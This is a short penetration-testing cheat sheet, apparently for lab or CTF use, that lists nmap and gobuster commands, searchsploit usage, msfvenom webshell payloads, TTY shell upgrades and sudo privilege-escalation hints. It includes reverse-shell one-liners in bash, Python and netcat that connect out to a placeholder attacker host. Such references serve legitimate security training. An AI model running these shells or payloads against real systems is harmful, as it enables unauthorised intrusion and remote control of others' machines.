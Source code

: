 ## Port scanning
### Nmap
* `nmap -sC -sV -oA <FILENAME> <TARGETIP>`
  * Default script, version detection, output to file 
  * [Explanation](https://www.cleancss.com/explain-command/nmap/4068984)


## Enumeration
### Directories
* `gobuster dir -u http://<SERVER> -o dirs.txt -w ~/links/dirlist.txt`
  * [Documentation](https://github.com/OJ/gobuster)
* [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

  
## Exploits
### Searchsploit
* Simple search - `searchsploit <KEYWORD>`
* Exploit details - `searchsploit -x <PATH>`
* Copy exploit - `searchsploit -m <PATH>`

### Websites
* [exploit-db.com](https://www.exploit-db.com/)

## Reverse shells
### Listen for connections
* `nc –nlvp <PORT>`
    * [Explanation](https://www.cleancss.com/explain-command/index.php?string=nc+-l+-v+-p)
### Shell
* Bash - `bash -c "bash -i >& /dev/tcp/<ATTACKERIP>/<ATTACKERPORT> 0>&1"`
* Python - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKERIP>",<ATTACKERPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`
* Netcat - `nc -nv <ATTACKERIP> <ATTACKERPORT> -e /bin/sh`

### Webshells
* `msfvenom -p <PAYLOAD> LHOST=<ATTACKERIP> LPORT=<ATTACKERPORT> -f raw > example.<EXT>`
  * PHP - `php/meterpreter_reverse_tcp`
  * ASP - `windows/meterpreter/reverse_tcp`
  * JSP - `java/jsp_shell_reverse_tcp`
* Kali - `/usr/share/webshells/` (ASP, ASPX, CFM, JSP, PERL, PHP)

### TTY shell
1. Open netcat session
2. `python -c 'import pty; pty.spawn("/bin/bash")'`
3. `export TERM=xterm`
4. `CTRL+Z`
5. `stty raw -echo`
6. `fg`

[Other methods of spawning a TTY Shell](https://netsec.ws/?p=337)

## Privilege escalation
### Sudo pwnage
* Commands executable as root - `sudo -l`
  * `(root) NOPASSWD: /usr/bin/vi /var/www/html/*`
  
[Basic cheat sheet](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

## Useful websites
* Explain linux commands - [cleancss.com/explain-command/](https://www.cleancss.com/explain-command/)
* Default router settings - [cleancss.com/router-default/](https://www.cleancss.com/router-default/)